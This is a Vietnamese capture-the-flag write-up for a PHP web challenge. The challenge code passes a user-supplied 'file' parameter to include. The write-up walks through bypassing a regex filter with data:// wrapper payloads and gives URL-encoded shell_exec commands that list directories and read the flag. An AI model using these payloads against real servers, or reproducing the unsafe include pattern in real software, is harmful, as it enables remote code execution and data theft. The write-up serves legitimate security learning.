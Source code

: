 # WEB_1

## Description 

```
mấy đứa đừng hack máy anh nhé .-.
mai anh còn đi làm nên đừng fuzzing nữa nhé ;(((
nhắc lại thương anh còn đang tích tiền cười vợ =(((
đừng hack máy anh
```
## Solution 

Do server đã bị hack tuy nhiên mk đã nhanh trí chụp lại source để tự built trên local , viết cái writeup này ==))

> Source code 

```
<?php
	if (!isset($_GET['file'])){
	    show_source(__file__);
	    exit(1);
	}

	$content = $_GET["file"];


	$filter_1 = "/^data(:)*(\/)*text(\/)*plain(;)*base64/i";
	$filter_2 ="/^http./i";

	if(preg_match($filter_1,$content)){
	    exit("Hacking not allowed here");
	}
	if(preg_match($filter_2,$content)){
	    exit("It's covid time, Do not go outside");
	}


	include $content;

	echo "<hr>";
	echo 'Keep moving forward<br />_Walt Disney_<br>';
?>

//Made in  dungdm@

```

Từ source ta có thể thấy có params file được truyền vào bằng GET và giá trị của nó sẽ được gán cho $content , sau đó biến này sẽ được truyền vào *include* để import file vào .

Đến đây có hai khả năng mà mình nghĩ đến :
   + Directory Traversal , tuy nhiên sau khi thử một số payload để đọc các file đặc biệt thì dường như không có hiệu quả .
   + LFI , lỗi này thì quá rõ ràng với dấu hiệu *?file=* và *include* và đây cũng là vuln trong chall này .

File Inclusion cho phép kẻ tấn công có thể xem các tệp trên máy chủ từ xa mà không cần nhìn thấy hoặc có thể thực thi các mã vào 1 mục tiêu bất kì trên trang web (source:https://viblo.asia/p/file-inclusion-vulnerability-exploit-4P856NMa5Y3).

Sau khi lang thang trên payloadsallthethinks(https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter) mk tìm được một số payloads khả thi .

  + Đầu tiên mk nghĩ tới việc dùng *php://filter/convert.base64-encode/resource=* để đọc source file nhưng do không scan được nên vấn đề là sẽ ko biết được có file nào ẩn không mà đọc có mỗi file index.php thì được cho rồi :)) 
  + Sau ý tưởng đầu thất bại mk có tìm thử 1 số file mặc định hay đặc trưng thì tìm đc file robots.txt có dạng :
  ```
  User-agent: *
  Disallow: /flag123456789.php
  ```
  hớn hở mở file này nhưng đời ko như là mơ *NOT FLAG TRY HARDER*
  + Sau một quá trình đi lung tung thì nhìn lại source code , ko bt tác giả filter cái data:// làm gì và với việc LFI cũng có thể dùng data:// để RCE thì mk nghĩ ôi thôi chắc là hướng này rồi .

Một chút về data_URIs ```data:[<mediatype>][;base64],<data>``` , ta có thể thấy rõ cấu trúc của nó ở đây :

  + Đầu tiên là cái mime để xác định kiểu dữ liệu nếu bỏ qua sẽ mặc định là text/plain .
  + ;Base64 để encode những dữ liệu ở dạng nhị phân nếu dữ liệu của bạn ở dạng văn bản thì có thể bỏ qua .

Dựa vào các đặc trưng trên ta có payloads sau :
```payloads : data://text/plain,<?php phpinfo();?>```

Sau khi hiển thị được phpinfo() tưởng chừng giải quyết được vấn đề tuy nhiên sau khi tiến hành rce lại ko đc :

```payloads : data://text/plain,<?php echo shell_exec('ls');?>```

Và mình mất khá nhiều thời gian cho lỗi này sau một hồi betak thì tác giả hint là cần encode url payloads vì một số kí tự đặc biệt sẽ khiến paylaods ko chạy đúng cách . Thế nhưng vẫn ko được lần này là do server chạy win mà mk dùng command linux mặc dù khi phpinfo mk có thấy rõ ràng server là win (gà vl).

Do không có nhiều kiến thức về command win nên phải nhờ hint tới tấp của tác giả cuối cùng cũng khai thác được :

> ?file=data%3A%2F%2Ftext%2Fplain%2C%3C%3Fphp%20echo%20shell_exec%28%27dir%20%2A%27%29%3B%3F%3E

![img](img/img1.png)

> ?file=data%3A%2F%2Ftext%2Fplain%2C%3C%3Fphp%20echo%20shell_exec%28%27dir%20%27%29%3B%3F%3E

![img](img/img2.png)

>?file=data%3A%2F%2Ftext%2Fplain%2C%3C%3Fphp%20echo%20shell_exec%28%27cd%20s3cr3t_m0Th3r_PhucDu%26type%20flag.txt%27%29%3B%3F%3E

![img](img/img3.png)

## Flag

KCSC{G00dJob_bae______G00000000000000000000000000000000DJ0000000b_GoodJ0b____Gudj0b}


